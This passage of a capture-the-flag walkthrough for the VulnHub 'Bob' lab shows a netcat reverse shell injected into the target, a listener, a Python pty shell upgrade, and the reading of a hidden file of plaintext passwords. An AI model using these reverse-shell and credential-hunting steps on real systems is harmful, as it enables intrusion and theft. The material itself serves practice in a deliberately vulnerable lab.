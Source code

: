 There is a `.hint` file wich can be visited also in browser(because its the same directory) which contains a real hint.


`http://192.168.0.12/.hint`

``` text
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

Lets put a reverse shell in there and see what happens.

`"nc" "-e" "/bin/sh" "192.168.0.9" "1234"`

And listening for the incoming shell with:

- `-n, --dont-resolve  numeric-only IP addresses, no DNS`
- `-l, --listen  listen mode, for inbound connects`
- `-v, --verbose  verbose (use twice to be more verbose)`
- `-p, --local-port=NUM  local port number`

``` text
$ nc -nlvp 1234

Connection from 192.168.0.12:50050
whoami
www-data
```

Now we can upgrade the shell with

`python -c 'import pty;pty.spawn("/bin/bash");'`

``` text
www-data@Milburg-High:/var/www/html$
```

Now we have a working shell!
Next step is to check for a passwordfile in the directory of the user bob.

`ls -al /home/bob`

``` text
[...]
-rw-r--r--  1 bob  bob     72 Mar  5 04:12 .old_passwordfile.html
[...]
```

Guessing was right.

``` text
www-data@Milburg-High:/home/bob$ cat .old_passwordfile.html
cat .old_passwordfile.html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>

```


[VulnHub]: https://www.vulnhub.com/
[c0rruptedb1t]: http://c0rruptedb1t.ddns.net/vms/Bob.ova